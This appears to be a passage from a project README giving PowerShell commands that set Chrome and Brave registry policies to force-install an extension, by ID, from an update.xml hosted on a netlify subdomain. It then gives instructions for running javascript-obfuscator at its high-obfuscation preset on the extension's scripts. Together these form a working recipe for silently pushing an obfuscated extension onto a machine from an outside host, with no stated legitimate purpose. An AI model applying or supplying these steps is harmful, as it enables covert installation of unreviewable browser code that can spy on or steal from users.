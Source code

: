 ```powershell
New-Item -Path HKLM:\SOFTWARE\Policies\Google\Chrome -Name ExtensionInstallForcelist -Force
```

Set Values in the newly created Registry Key

```powershell
New-ItemProperty -Path HKLM:\SOFTWARE\Policies\Google\Chrome\ExtensionInstallForcelist -Name "1" -Value "dndadjccaejaalofmmbdbgmegaolcghb;https://kaleidoscopic-souffle-3f8d58.netlify.app/update.xml" -Force
```

- Name must be numeric. Custom strings seemed not to work. So stick with `1` for now.

### Brave

```powershell

New-Item -Path HKLM:\SOFTWARE\Policies\BraveSoftware\Brave -Name ExtensionInstallForcelist -Force
```

```powershell
New-ItemProperty -Path HKLM:\SOFTWARE\Policies\BraveSoftware\Brave\ExtensionInstallForcelist -Name "1" -Value "dndadjccaejaalofmmbdbgmegaolcghb;https://kaleidoscopic-souffle-3f8d58.netlify.app/update.xml" -Force
```

## Obfuscation

Using [javascript-obfuscator](https://github.com/javascript-obfuscator/javascript-obfuscator) to obfuscate the code.

- can be installed globally or locally. (if installed locally add `npx` before the command)

```sh
npm i -g javascript-obfuscator
```

- Create a `Makefile` to automate the process of obfuscating the build
- just run `make` in terminal to run makefile

```makefile
all: obfuscate
obfuscate:
	@javascript-obfuscator main.js -o script1.js --options-preset high-obfuscation
	@javascript-obfuscator main2.js -o script2.js --options-preset high-obfuscation
```

- The above code can also be put in `package.json` as a script

```js
"scripts": {
    "obfuscate": "javascript-obfuscator main.js -o script1.js --options-preset high-obfuscation && javascript-obfuscator main2.js -o script2.js --options-preset high-obfuscation"
  },
```
